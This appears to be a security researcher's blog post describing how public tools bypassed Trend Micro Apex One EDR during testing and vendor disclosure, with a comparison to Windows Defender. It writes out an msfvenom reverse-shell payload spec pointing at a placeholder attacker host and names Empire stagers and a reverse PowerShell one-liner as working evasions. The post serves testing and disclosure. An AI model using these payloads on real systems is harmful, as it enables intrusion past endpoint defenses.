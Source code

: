 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Bypassing Trend Micro Apex One
___________________________________

# Background
Imagnie, if you will, that your orginization utilizes a well known and 'trusted' Enterprise grade endpoint detection and response solution. Furthermore, imagine that you discover a way to bypass this solution, but to your horror a couple of seriously glarring issues come to the forefront: 
1. The EDR solution can be byapssed using simple or even very basic payloads. 
2. The EDR solution can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.
3. A solution, update, signature, whatever still hasn't been deployed to clients despite working months on end with back-end engineers and other team members part of the vendor and providing beyond adequate information to help them.

Now, I'm a bit skeptical when it comes to AV and EDR solutions. One often hears sale reps tout about how great their product is. How it will *'block everything'*, *'prevent breaches'*, and blah, blah, blah. Obviously, a product like this isn't going to prevent bleeding edge methods or techniques that are used to get around them. The same goes for customized payloads. Heck, the simple reverse PowerShell script I wrote back in March surprisingly still gets around Defender and AMSI in Windows 10 build 1903. What I'm trying to get at, is that the art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know a much more than I do when it comes to this type of stuff. 

Before you ask, yes I did checking the settings in the administration console. I double checked, triple checked, checked again and then had a small existential crisis. Other collegaues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off and check again by now if it was something on my end. 

![bms](Post%20Images/BMS.PNG)
![scs](Post%20Images/SCS.PNG)

After countless emails back and forth, a couple of phone calls later and a handful of updates pushed out, the problem still persists. I first notified Trend of the issue back in Feburary and it is now June. I should point out that Trend pushed out an update were at a point in the process in which we were able to get Apex One to succesfully block anything from PowerShell Empire. However, this glimer of hope only lasted for a short period of time before I tried again a couple of days later to test for consistency.

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of low privilege access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR soluitions. As expected, it was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


# MSFVenom cmd/windows/reverse_powershell
![msfv_1](Post%20Images/kaliVM.PNG)
![msfv_2](Post%20Images/Win10Prod_LI.jpg)
![msfv_3](Post%20Images/msfvenom_payload.PNG)
![msfv_4](Post%20Images/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/msfv_bypass_LI.jpg)
![msfv_6](Post%20Images/msfv_bypass2_LI.jpg)

# Observations
As I mentioned previously, I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on the MSFvenom payload). I recieved the patch on a specified date and it seemed like it was working. PSE was no longer receiving a callback from the target thus producing an agent that would allow me to interact with the remote host. Every thing was fine and dandy until I peformed the same test a couple of days later. Apex One had once again failed to alert on the C2 connection. At this time I noticed that the IP on my Kali box had changed. Was I able to bypass Apex One once more with PSE just by changing my IP? Yes, I was. To make sure I wasn't hallucinating, I had a collegue execute the stager on their machine and sure enough I got a callback from the machine.

## PowerShell Empire

#### Round 1
![PSE_1_1](Post%20Images/kalivm.PNG)
![PSE_1_2](Post%20Images/win10prod2_LI.jpg)
![PSE_1_3](Post%20Images/listener_stager.PNG)
![PSE_1_4](Post%20Images/pse_bypass_LI.jpg)

A few minutes later and Apex One still didn't figure out was happening.

#### Round 2
![PSE_2_1](Post%20Images/win10prod2_LI.jpg)
![PSE_2_2](Post%20Images/pse_bypass2.PNG)
![PSE_2_3](Post%20Images/pse_bypass2_cmds_LI.jpg)

I came across an anomoly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjuntion with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite seems to occur when planting the base64 encoded PowerShell payload generated from the launcher command in Empire PowerShell. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is detected by Apex One.

# A Shockng Revelation
During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. 

![winver](Post%20Images/winver.PNG)

The results shocked me to say the least. You'd think a free, built-in AV that comes with Windows would be absolute crap, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 was able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the github link. 

![Github One-liner](Post%20Images/amsi_github_oneliner.PNG)

However, I was able get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't recived a message from AMSI or Defender saying something malicous was going on. However, I recieved an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. To make sure I wasn't go insane and to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and peform the same tests. Again, Defender stopped what Apex One couldn't.
